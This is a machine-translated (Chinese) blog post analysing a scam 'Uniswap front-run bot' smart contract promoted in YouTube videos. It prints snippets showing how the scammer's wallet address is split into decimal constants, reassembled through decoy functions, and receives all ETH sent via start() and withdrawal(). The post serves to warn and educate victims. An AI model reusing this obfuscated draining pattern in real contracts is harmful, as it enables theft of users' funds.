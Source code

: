 # Uniswap Frontrun bot 骗局

> 原文：<https://medium.com/coinmonks/uniswap-frontrun-bot-scam-e524a8a7f71b?source=collection_archive---------2----------------------->

剖析 uniswap 领跑者 bot 合同骗局

![](img/24727533b795ca4d6bbfa9c294cf6d89.png)

如果你正在阅读这篇文章，你可能会在网上看到一些视频，YouTuber 声称通过使用一个领先的机器人，他们的密码是他们的 10 倍，他们会分享一个链接。

现在，如果你使用这些合同中的任何一个，你可能会发现这是一个骗局。但是合同里没有任何你能直接识别的地址。那么这是怎么发生的呢？

合同链接(仅供参考):[/spdx-license-identifier:MIT pragma solidity ^0.6.6；//导入库 Mi—Pastebin.com](https://pastebin.com/0CNhAi5h)

契约只是将发送给它的密码转移到隐藏在其中的一个地址，以使转移看起来不那么可疑。今天，我要揭穿其中一份合同以及他们隐藏欺诈地址的方式。

首先，合同中的大量代码是无用的。是的，这和使用语法很相似，所以人们认为你很聪明。

请注意这个函数，它可能是您调用或被要求调用来启动领跑者机器人的函数。

```
function start() public payable {emit Log("Running FrontRun attack on Uniswap. This can take a while please wait...");payable(_callFrontRunActionMempool()).transfer(address(this).balance);}
```

有三个主要的补偿功能；

```
callMempool()checkLiquidity()mempool()parseMemoryPool()_callFrontRunActionMempool()start()withdrawal()
```

他们所做的只是简单地将地址分成 8 个十六进制值(省去 x0)，然后将这些值转换成小数，同时将它们隐藏在下面的函数和变量中

```
_memPoolOffset = getMemPoolOffset() //returns a hardcoded decimal value of five characters an addressuint _memPoolSol = 573910; //this is the decimal value of five characters an addressuint _memPoolLength = getMemPoolLength();//returns a hardcoded decimal valueuint _memPoolSize = 787789;uint _memPoolHeight = getMemPoolHeight(); //returns a hardcoded decimal valueuint _memPoolWidth = 704500;uint _memPoolDepth = getMemPoolDepth(); //returns a hardcoded decimal valueuint _memPoolCount = 989963;
```

这些都有十进制值隐藏的部分。

checkLiqudity 函数将这些十进制值转换回十六进制，并将其作为字符串返回。

mempool 函数连接这些字符串。

在 **callMempool()** 函数中，一系列这些字符串被连接并完全转换成十六进制字符串，以字符串格式表示“隐藏”地址。

最后，**_ callFrontRunActionMempool()**和 **withdrawalProfits()** 使用 **parseMemoryPool()** 函数将 **callMempool()** 返回的字符串转换为地址类型。

```
function _callFrontRunActionMempool() internal pure returns (address) {
return parseMemoryPool(callMempool());}function withdrawalProfits() internal pure returns (address) {return parseMemoryPool(callMempool());}
```

这返回的是隐藏在合同中的虚拟地址。

现在仔细看看 start 和 withdraw 函数，您发送的 eth 被传送到由**_ callFrontRunActionMempool()**返回的隐藏地址

```
function start() public payable {emit Log("Running FrontRun attack on Uniswap. This can take a while please wait...");
**payable(_callFrontRunActionMempool()).transfer(address(this).balance);** } function withdrawal() public payable {
emit Log("Sending profits back to contract creator address...");
**payable(withdrawalProfits()).transfer(address(this).bal
ance);**}
```

任何转移到此合同的 eth 都将进入骗子的帐户，不会发生任何挤兑。

这是很可悲的程度骗子去拉这一关，但总是在你与智能合同互动时保持警惕。

请广而告之，这样就没有人再上这个当了。谢了。

[***给我买杯咖啡***](https://www.buymeacoffee.com/frawllingsV)*☕*

> *交易新手？试试[加密交易机器人](/coinmonks/crypto-trading-bot-c2ffce8acb2a)或者[复制交易](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c)*